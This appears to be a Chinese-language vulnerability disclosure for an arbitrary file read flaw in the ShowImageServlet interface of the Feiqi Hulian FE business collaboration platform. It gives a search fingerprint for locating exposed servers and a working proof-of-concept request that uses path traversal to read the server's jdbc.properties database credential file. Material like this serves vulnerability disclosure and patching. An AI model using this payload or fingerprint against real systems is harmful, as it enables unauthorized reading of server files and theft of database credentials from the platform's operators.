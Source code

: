 # 

# 飞企互联 FE业务协作平台 ShowImageServlet 任意文件读取漏洞

## 漏洞描述

飞企互联 FE业务协作平台 ShowImageServlet 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中敏感文件

## 漏洞影响

飞企互联 FE业务协作平台

## 网络测绘

```
"flyrise.stopBackspace.js"
```

## 漏洞复现

登陆页面

![image-20230828145057107](images/image-20230828145057107.png)

验证POC

```
/servlet/ShowImageServlet?imagePath=../web/fe.war/WEB-INF/classes/jdbc.properties&print
```

![image-20230828145109229](images/image-20230828145109229.png)
